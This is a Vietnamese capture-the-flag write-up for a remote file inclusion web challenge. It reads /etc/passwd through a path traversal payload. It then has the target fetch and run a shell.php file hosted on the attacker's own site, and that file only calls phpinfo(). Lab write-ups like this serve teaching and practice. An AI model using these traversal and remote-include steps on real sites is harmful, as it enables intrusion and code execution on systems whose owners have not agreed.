

# Remote File Inclusion

**Tên challenge:**  Remote File Inclusion

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/remote-file-inclusion)

**Tác giả challenge:** COLLECTOR

**Mục tiêu challenge:** phpinfo() Outputs information about PHP's configuration. Let's find phpinfo file, then create a Webshell for reading the flag file on the system.

Flag Location: `/flag.txt`

Flag Format: `CHH{XXX}`

Credits: `MCTF`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, ta sẽ thấy có các mục khi truy cập vào trang web như sau:
	


Khi thử click 1 trong các mục thì trang Web sẽ in ra nội dung dựa theo lựa chọn mà ta click. Đồng thời, URL của Website cũng sẽ xuất hiện parameter `file` như sau:



Nhìn vào parameter `file`, ta có thể liên tưởng đến các kịch bản lỗi bảo mật liên quan như Path Traversal, Local File Inclusion,...

**B2:** Ta thử payload `../../../../../../../../../../../etc/passwd`, để xem Website có trả về nội dung file `passwd` không


=> Ta có thể đọc file `/etc/passwd` thông qua lỗ hổng Local File Inclusion của Website

**B3:** Ta tiếp tục sửa payload thành `../../../../../../../../../../../flag.txt`

Tuy nhiên, chả có gì xảy ra cả. Xem ra, tên file thật sự của Flag không phải là `flag.txt`, và bây giờ làm sao để ta tìm được tên thật của file Flag ?

* **Trả lời:** Ta có thể phỏng đoán đoạn code xử lý trả về file bị lỗi `Local File Inclusion` có dạng sau:
```
$test = $_REQUEST["file"];
Include($test);
```
Vậy thì sẽ ra sao nếu ta Upload 1 file có dạng `shell.php` lên Website Attacker của mình. Rồi ở parameter `file` thì ta sẽ đưa đường dẫn URL đến file `shell.php`. Liệu Website có thực thi nội dung trong file đó không ?

**B3:** Ta tạo 1 file `shell.php` với nội dung:
```
<?php phpinfo();? ?>
```
**B4:** Ta Upload file đó lên Web bên ngoài của ta

**B5:** Ta đổi giá trị của parameter `file` thành: `https://web_cua_ta.com/shell.php`


=> Vậy là ta đã thực thi thành công code trên Website.

Tiếp theo, ta chỉ cần dùng Command để lấy Flag thôi.